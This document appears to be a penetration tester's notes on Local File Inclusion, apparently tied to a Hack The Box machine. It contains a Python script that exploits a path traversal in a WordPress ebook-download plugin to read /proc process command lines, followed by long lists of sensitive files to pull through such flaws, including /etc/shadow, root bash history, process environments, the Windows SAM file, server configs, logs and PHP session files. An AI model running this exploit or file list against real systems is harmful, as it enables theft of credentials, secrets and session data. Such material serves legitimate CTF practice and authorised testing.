 # Local File Inclusion
#lfi


## List running processes
```
import requests


for num in range(0, 1001):
    url = 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/{}/cmdline'.format(num)
    # print(url)
    r = requests.get(url)
	# Filter - adjust as necessary!
    if not 'cmdline<script>'.encode('UTF-8') in r.content:
        print(r.content)
```

## File list
- Fingerprinting (General files)

    /etc/passwd
    /etc/master.passwd
    /etc/shadow
    /var/db/shadow/hash
    /etc/group
    /etc/hosts
    /etc/motd
    /etc/issue
    /etc/release
    /etc/redhat-release
    /etc/crontab
    /etc/inittab
    /proc/version
    /proc/cmdline
    /proc/self/environ
    /proc/self/fd/0
    /proc/self/fd/1
    /proc/self/fd/2
    /proc/self/fd/255
    /etc/httpd.conf
    /etc/apache2.conf
    /etc/apache2/apache2.conf
    /etc/apache2/httpd.conf
    /etc/httpd/conf/httpd.conf
    /etc/httpd/httpd.conf
    /etc/apache2/conf/httpd.conf
    /etc/apache/conf/httpd.conf
    /usr/local/apache2/conf/httpd.conf
    /usr/local/apache/conf/httpd.conf
    /etc/apache2/sites-enabled/000-default
	/etc/apache2/sites-enabled/000-default.conf
    /etc/apache2/sites-available/default
    /etc/nginx.conf
    /etc/nginx/nginx.conf
    /etc/nginx/sites-available/default
    /etc/nginx/sites-enabled/default
    /etc/ssh/sshd_config
    /etc/my.cnf
    /etc/mysql/my.cnf
    /etc/php.ini
    /var/mail/www-data
    /var/mail/www
    /var/mail/apache
    /var/mail/nobody
    /var/www/.bash_history
    /root/.bash_history
    /var/root/.bash_history
    /var/root/.sh_history

- Less common paths for httpd.conf/php.ini

    /usr/local/apache/httpd.conf
    /usr/local/apache2/httpd.conf
    /usr/local/httpd/conf/httpd.conf
    /usr/local/etc/apache/conf/httpd.conf
    /usr/local/etc/apache2/conf/httpd.conf
    /usr/local/etc/httpd/conf/httpd.conf
    /usr/apache2/conf/httpd.conf
    /usr/apache/conf/httpd.conf
    /etc/http/conf/httpd.conf
    /etc/http/httpd.conf
    /opt/apache/conf/httpd.conf
    /opt/apache2/conf/httpd.conf
    /var/www/conf/httpd.conf
    /usr/local/php/httpd.conf
    /usr/local/php4/httpd.conf
    /usr/local/php5/httpd.conf
    /etc/httpd/php.ini
    /usr/lib/php.ini
    /usr/lib/php/php.ini
    /usr/local/etc/php.ini
    /usr/local/lib/php.ini
    /usr/local/php/lib/php.ini
    /usr/local/php4/lib/php.ini
    /usr/local/php5/lib/php.ini
    /usr/local/apache/conf/php.ini
    /etc/php4/apache/php.ini
    /etc/php4/apache2/php.ini
    /etc/php5/apache/php.ini
    /etc/php5/apache2/php.ini
    /etc/php/php.ini
    /etc/php/php4/php.ini
    /etc/php/apache/php.ini
    /etc/php/apache2/php.ini
    /usr/local/Zend/etc/php.ini
    /opt/xampp/etc/php.ini
    /var/local/www/conf/php.ini
    /etc/php/cgi/php.ini
    /etc/php4/cgi/php.ini
    /etc/php5/cgi/php.ini

- OS Logs

Linux

    /var/log/lastlog
    /var/log/wtmp
    /var/run/utmp
    /var/log/messages.log
    /var/log/messages
    /var/log/messages.0
    /var/log/messages.0.gz
    /var/log/messages.1
    /var/log/messages.1.gz
    /var/log/messages.2
    /var/log/messages.2.gz
    /var/log/messages.3
    /var/log/messages.3.gz
    /var/log/syslog.log
    /var/log/syslog
    /var/log/syslog.0
    /var/log/syslog.0.gz
    /var/log/syslog.1
    /var/log/syslog.1.gz
    /var/log/syslog.2
    /var/log/syslog.2.gz
    /var/log/syslog.3
    /var/log/syslog.3.gz
    /var/log/auth.log
    /var/log/auth.log.0
    /var/log/auth.log.0.gz
    /var/log/auth.log.1
    /var/log/auth.log.1.gz
    /var/log/auth.log.2
    /var/log/auth.log.2.gz
    /var/log/auth.log.3
    /var/log/auth.log.3.gz

Solaris

    /var/log/authlog
    /var/log/syslog
    /var/adm/lastlog
    /var/adm/messages
    /var/adm/messages.0
    /var/adm/messages.1
    /var/adm/messages.2
    /var/adm/messages.3
    /var/adm/utmpx
    /var/adm/wtmpx

Mac

    /var/log/kernel.log
    /var/log/secure.log
    /var/log/mail.log
    /var/run/utmp
    /var/log/wtmp
    /var/log/lastlog

- HTTPD Logs

    /var/log/access.log
    /var/log/access_log
    /var/log/error.log
    /var/log/error_log
    /var/log/apache2/access.log
    /var/log/apache2/access_log
    /var/log/apache2/error.log
    /var/log/apache2/error_log
    /var/log/apache/access.log
    /var/log/apache/access_log
    /var/log/apache/error.log
    /var/log/apache/error_log
    /var/log/httpd/access.log
    /var/log/httpd/access_log
    /var/log/httpd/error.log
    /var/log/httpd/error_log
    /etc/httpd/logs/access.log
    /etc/httpd/logs/access_log
    /etc/httpd/logs/error.log
    /etc/httpd/logs/error_log
    /usr/local/apache/logs/access.log
    /usr/local/apache/logs/access_log
    /usr/local/apache/logs/error.log
    /usr/local/apache/logs/error_log
    /usr/local/apache2/logs/access.log
    /usr/local/apache2/logs/access_log
    /usr/local/apache2/logs/error.log
    /usr/local/apache2/logs/error_log
    /var/www/logs/access.log
    /var/www/logs/access_log
    /var/www/logs/error.log
    /var/www/logs/error_log
    /opt/lampp/logs/access.log
    /opt/lampp/logs/access_log
    /opt/lampp/logs/error.log
    /opt/lampp/logs/error_log
    /opt/xampp/logs/access.log
    /opt/xampp/logs/access_log
    /opt/xampp/logs/error.log
    /opt/xampp/logs/error_log

- PHP Session Locations

    /tmp/sess_<sessid>
    /var/lib/php/session/sess_<sessid>
    /var/lib/php5/session/sess_<sessid>

Windows files
- Fingerprinting

    *:\boot.ini
    *:\WINDOWS\win.ini
    *:\WINNT\win.ini
    *:\WINDOWS\Repair\SAM
    *:\WINDOWS\php.ini
    *:\WINNT\php.ini
    *:\Program Files\Apache Group\Apache\conf\httpd.conf
    *:\Program Files\Apache Group\Apache2\conf\httpd.conf
    *:\Program Files\xampp\apache\conf\httpd.conf
    *:\php\php.ini
    *:\php5\php.ini
    *:\php4\php.ini
    *:\apache\php\php.ini
    *:\xampp\apache\bin\php.ini
    *:\home2\bin\stable\apache\php.ini
    *:\home\bin\stable\apache\php.ini

- Logs

    *:\Program Files\Apache Group\Apache\logs\access.log
    *:\Program Files\Apache Group\Apache\logs\error.log

- PHP Session Locations

    *:\WINDOWS\TEMP\
    *:\php\sessions\
    *:\php5\sessions\
    *:\php4\sessions\